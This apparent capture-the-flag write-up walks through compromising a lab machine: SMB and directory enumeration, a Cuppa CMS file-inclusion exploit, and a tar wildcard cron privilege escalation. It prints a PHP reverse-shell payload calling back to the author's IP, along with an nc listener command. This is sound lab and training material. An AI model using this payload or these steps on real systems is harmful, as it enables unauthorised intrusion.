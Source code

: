 -  used `nmap` to enumerate open ports.
-  there was a port open for smb (port 445)
- I also used `gobuster` to enumerate directories, found `/squirrelmail 
-  I enumerated smb and stored the output in `enum4linux.txt` with `enum4linux -a skynet.thm | tee enum4linux.txt`
-  I used `smbclient //skynet.thm/anonymous -I 10.10.86.85` to get access to the share, I found `log1.txt` which is a wordlist for the user `milesdyson`, the password for [squirrelmail](https://www.squirrelmail.org/)was `cyborg007haloterminator`
- in one of the emails I found the password for milesdyson's smb share
- I accessed milesdyson's smb share and I found the secret directory which is: `/45kra24zxs28v3yd`
- later on I used `gobuster` to enumerate directories for `/45kra24zxs28v3yd`, found `/administrator` which uses [Cuppa](https://www.cuppacms.com/), a CMS (Content Management System)
- i found a local and remote file inclusion vulnerability on Cuppa: https://www.exploit-db.com/exploits/25971
- i could read the server's files through this vulnerability.
- i created a php file which sends a connection to my machine and spawns a shell and I set up a listener on my machine with `nc -lnvp 6969` (Reverse Shell).
```php
<?php

system("php -r '\$sock=fsockopen(\"10.21.55.48\",6969);exec(\"/bin/sh -i <&3 >&3 2>&3\");'");
?>
```
- I opened a web server with `python -m http.server 80`, so i can use `http://10.21.55.48/malicious.php`
- I made the target machine execute my php script through the vulnerability specified above
- I successfully spawned a shell and gained better control over the target machine.
- I got the user.txt flag
- i used `linpeas.sh` for enumerating possible privilege escalation paths. With this tool i found a root cron job that executes every minute. 
- the cron job creates a backup the web server's files. It changes the working directory to `/var/www/html` It uses the following command: `tar cf /home/milesdyson/backups/backup.tgz *`
- i found this article: https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa, it explains nicely how you can get root privileges through the `tar cf ... *` command.
- I waited for the cron job to execute and got root privileges
- i got the root.txt flag located in the `/root` folder
this whole process was recorded and uploaded to YouTube: https://www.youtube.com/watch?v=_YEADYwWO9E